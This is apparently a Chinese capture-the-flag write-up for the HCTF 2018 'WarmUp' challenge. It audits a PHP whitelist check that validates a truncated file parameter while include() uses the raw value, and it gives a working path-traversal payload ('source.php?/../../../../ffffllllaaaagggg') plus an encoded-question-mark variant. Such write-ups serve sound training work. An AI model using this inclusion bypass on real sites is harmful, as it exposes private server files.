


# [HCTF 2018] WarmUp

这道题打开一个靶场后就一个滑稽笑脸，查看页面源代码，发现 `source.php`，访问后进行代码审计。





## 代码结构

代码由两部分做成。

**前半部分是函数的实现**（`class emmm` 里的 `checkFile`），**后半部分是调用**：

```php
if (!empty($_REQUEST['file'])
    && is_string($_REQUEST['file'])
    && emmm::checkFile($_REQUEST['file'])
) {
    include $_REQUEST['file'];
    exit;
} else {
    echo "<br>";
}
```

先看 `hint.php`，它给了 flag 的名字。

## checkFile 的三轮检查

白名单只有两个：

```php
$whitelist = ["source" => "source.php", "hint" => "hint.php"];
```

然后对传入的 `$page` 做三轮判断：

```php
① 原样比对
   if (in_array($page, $whitelist)) return true;

② 截断到 ? 再比对
   $_page = mb_substr($page, 0, mb_strpos($page . '?', '?'));
   if (in_array($_page, $whitelist)) return true;

③ urldecode 之后再截断到 ? 再比对
   $_page = urldecode($page);
   $_page = mb_substr($_page, 0, mb_strpos($_page . '?', '?'));
   if (in_array($_page, $whitelist)) return true;

都不过 → echo "you can't see it"; return false;
```

**核心就是第 ② 轮：`mb_strpos($page . '?', '?')` 找到**第一个问号**，只把问号**前面**那一段拿去比对。**

**所以只要开头是 `source.php`，后面接什么都行。**

## 构造 payload

```text
?file=source.php?/../../../../ffffllllaaaagggg
```

!!! note "`../` 的数量"

    一个一个往上加，直到跳出 web 根目录，正好够到 `/ffffllllaaaagggg`。

**为什么能过：**

```text
checkFile 看到:  source.php?/../../../../ffffllllaaaagggg
                 └────┬────┘
                 截断到 ? → "source.php" → 在白名单里 ✅

include 拿到:    source.php?/../../../../ffffllllaaaagggg
                 └─ 整条原样送进去,? 后面的 ../ 才发挥作用
```

**校验看的是"截断后"，`include` 用的是"整条" —— 两者不是同一个字符串。**

## 得到 flag


## 这道题的要点

**① 校验和使用的字符串不一致**

```text
checkFile 用 $_page(截断后的)
include   用 $_REQUEST['file'](原始的)
```

**和路径遍历那六关是同一个模型：**校验发生在哪一步，绕过就发生在哪一步之前。

**② 还有个没被用上的口子**

第 ③ 轮是 `urldecode` 之后才截断 —— 这意味着 `%3f` 编码的问号也能触发截断。这次没用上，但换一道题可能就得靠它。
